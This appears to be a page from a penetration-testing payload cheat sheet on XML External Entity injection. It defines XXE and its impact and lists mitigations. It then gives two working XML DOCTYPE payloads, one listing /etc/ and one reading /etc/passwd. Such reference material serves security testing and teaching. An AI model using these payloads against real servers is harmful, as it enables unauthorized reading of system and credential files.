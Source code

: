 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XXEI

{% hint style="info" %}
**XML External Entity Injection (XXE)** is a vulnerability where an attacker exploits the XML parser to include and process external entities, which can lead to unauthorized access to files or services.
{% endhint %}

{% hint style="danger" %}
This can result in data exfiltration, server-side request forgery, or application crashes, as attackers can access sensitive files or internal systems.
{% endhint %}

{% hint style="success" %}
Disable external entity processing in XML parsers, validate and sanitize XML inputs, and use secure XML parsing libraries that are configured to prevent XXE attacks.
{% endhint %}

## Payloads

### Common

{% tabs %}
{% tab title="Directory Listing" %}
```xml
<!-- This works in certain Java web applications -->
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/">
]>
```
{% endtab %}

{% tab title="LFI" %}
```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```
{% endtab %}
